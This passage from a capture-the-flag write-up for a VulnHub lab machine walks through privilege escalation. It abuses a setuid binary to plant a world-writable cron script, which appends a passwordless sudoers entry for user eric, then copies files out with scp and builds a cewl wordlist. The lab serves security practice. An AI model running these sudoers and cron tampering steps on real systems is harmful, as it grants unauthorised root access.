 ``` {.python .numberLines}
eric
```

\newpage
## Phase #3: Privilege Escalation
1\. While searching for `setuid` files we see an uncommon binary:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null → /usr/local/share/sgml/donpcgd

```

2\. We test this binary and find that it requires two file path parameters. It creates an empty file at path passed as argument #2 with permissions of file passed as argument #1:  

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot13.png)  

3\. Used this to create a empty file at file path `/etc/cron.hourly/testing` with `chmod 777` permissions. We then added commands to this new file to add user `eric` to `/etc/sudoers`:  
``` {.python .numberLines}
touch testing
chmod 777 testing
echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers' >/etc/cron.hourly/testing

```

![writeup.privesc.steps.3.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot14.png)  

4\. We had to wait for an hour for the `cron` job to execute and after that running the `sudo -l` command confirmed that `sudoers` permissions are now enabled for user `eric`. We then changed to user `root`:  
``` {.python .numberLines}
sudo -l
sudo su

```

![writeup.privesc.steps.4.1](Box%20Write-ups/vulnhub.billymadison1dot1/writeup.privesc.screenshot.png)  

5\. We copied `BowelMovement` and `hints.txt` files from `/PRIVATE/` directory to `/home/eric/` and changed file owner to user `eric`. Then we download both files locally using `scp`:  
``` {.python .numberLines}
scp -p1974 eric@192.168.92.167:/home/eric/BowelMovement ./
scp -p1974 eric@192.168.92.167:/home/eric/hints.txt ./

```

![writeup.privesc.steps.5.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot15.png)  

6\. The `hints.txt` file hinted at a possible password from the Wikipedia page [BillyMadison](https://en.wikipedia.org/wiki/Billy_Madison). We used `cewl` to create a wordlist from the wiki page:  
``` {.python .numberLines}
cewl -d0 "https://en.wikipedia.org/wiki/Billy_Madison" >wiki.wordlist

```
